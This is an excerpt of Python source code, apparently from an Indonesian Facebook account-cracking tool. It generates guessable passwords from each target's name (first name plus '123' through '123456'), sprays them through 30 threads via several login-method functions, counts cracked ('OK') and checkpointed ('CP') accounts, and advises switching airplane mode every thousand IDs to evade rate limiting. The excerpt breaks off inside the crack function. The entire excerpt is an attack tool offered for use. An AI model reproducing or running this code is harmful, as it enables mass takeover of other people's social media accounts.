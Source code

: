 	print(f'\x1b[1;93m[\x1b[1;92m+\x1b[1;93m]\x1b[1;93m ╰─>{x}Hasil {h}OK{x} Tersimpan Di : {h}OK/%s {x}'%(okc))
	print(f'\x1b[1;93m[\x1b[1;92m+\x1b[1;93m]\x1b[1;93m ╰─>{x}Hasil {k}CP{x} Tersimpan Di : {k}CP/%s {x}'%(cpc))
	print(f'\x1b[1;93m[\x1b[1;92m+\x1b[1;93m]\x1b[1;93m ╰─>\x1b[1;92mMainkan Mode Pesawat Setiap {m}1k{x} Idz\n')
	with tred(max_workers=30) as pool:
		for yuzong in id2:
			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
			frs = nmf.split(' ')[0]
			pwv = []
			if len(nmf)<6:
				if len(frs)<3:
					pass
				else:
					pwv.append(frs+'123')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(frs+'123456')
			else:
				if len(frs)<3:
					pwv.append(nmf)
				else:
					pwv.append(nmf)
					pwv.append(frs+'123')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(frs+'123456')
			if 'ya' in pwpluss:
				for xpwd in pwnya:
					pwv.append(xpwd)
			else:pass
			if 'mobile' in method:
				pool.submit(crack,idf,pwv)
			elif 'touch' in method:
				pool.submit(cracktouch,idf,pwv)
			elif 'mbasic' in method:
				pool.submit(crackmbasic,idf,pwv)
			elif 'free' in method:
				pool.submit(crackfree,idf,pwv)
			else:
				pool.submit(crackfree,idf,pwv)
	print('')
	cetak(nel('\t[cyan]>>[green] Crack Selesai Ngab, Jangan Lupa Bersyukur[cyan] <<[white] '))
	print(f'[{b}•{x}]{h} OK : {h}%s '%(ok))
	print(f'{x}[{b}•{x}]{k} CP : {k}%s{x} '%(cp))
	print('')
	print('\x1b[1;93m[\x1b[1;92m?\x1b[1;93m]\x1b[1;93m ╰─>\x1b[1;92mLanjut Crack Kembali \33[m( \x1b[1;92mY\x1b[1;91m/\x1b[1;93mt \33[m) \x1b[1;92m? ')
	woi = input('\x1b[1;93m[\x1b[1;92m?\x1b[1;93m]\x1b[1;93m ╰─>\x1b[1;92mPilih > \x1b[1;93m')
	if woi in ['y','Y']:
		back()
	else:
		print(f'\t{x}>>{k} SAMPAI JUMPA LAGI {x} << ')
		time.sleep(2)
		exit()
def crack(idf,pwv):
	global loop,ok,cp
	bo = random.choice([m,k,h,b,u,x])
	sys.stdout.write(f"\r{x}[{h}+{x}]{k} ╰─>{P}[{b}{loop}{P}/{u}{len(id)}{P}]—{P}[{H}{ok}{P}]—{P}[{k}{cp}{x}]—[{bo}{'{:.0%}'.format(loop/float(len(id)))}{P}]  "),
	sys.stdout.flush()
	ua = random.choice(ugen)
	ua2 = random.choice(ugen2)